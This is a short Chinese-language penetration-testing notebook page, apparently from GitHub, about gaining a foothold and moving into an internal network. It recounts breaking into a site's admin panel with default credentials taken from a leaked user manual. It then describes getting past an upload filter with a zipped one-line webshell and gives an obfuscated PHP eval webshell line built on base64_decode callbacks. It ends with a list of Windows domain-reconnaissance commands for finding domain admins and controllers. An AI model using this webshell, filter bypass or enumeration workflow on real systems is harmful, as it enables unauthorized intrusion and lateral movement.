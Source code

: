 # 内网资料备份
### 获取 webshell 进内网

测试主站，搜 wooyun 历史洞未发现历史洞，github, svn, 目录扫描未发现敏感信息, 无域传送，端口只开了80端口，找到后台地址，想爆破后台，验证码后台验证，一次性，用 ocr 识别，找账号，通过 google，baidu，bing 等搜索，相关邮箱，域名等加常用密码组成字典，发现用户手册，找账号，发现未打码信息，和默认密码，试下登陆成功，找后台，上传有 dog，用含有一句话的 txt 文件 

> \````

打包为 zip，php 文件 

> \```` 

即可，c 刀被拦，修改 config.ini 文件

> ```
> php_make @eval(call_user_func_array(base64_decode,array($_POST[action])));
> ```

用回调函数，第一个为函数名，二个为传的参数

### 前期信息收集

> query user || qwinsta 查看当前在线用户
>
> net user  查看本机用户
>
> net user /domain 查看域用户
>
> net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
>
> net view /domain 查看有几个域
>
> net view \\\\dc  查看 dc 域内共享文件
>
> net group /domain 查看域里面的组
>
> net group "domain admins" /domain 查看域管
>
> net localgroup administrators /domain  /这个也是查域管，是升级为域控时，本地账户也成为域管
>
> net group "domain controllers" /domain 域控
>
> net time /domain 
>
> net config workstation  当前登录域 - 计算机名 - 用户名
>
> net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
>
> ipconfig
>
> systeminfo
>
> tasklist /svc
>
> tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist
>
> net localgroup administrators && whoami 查看当前是不是属于管理组
>
> netstat -ano
>
> nltest /dclist:xx  查看域控
>
> whoami /all 查看 Mandatory Label uac 级别和 sid 号
>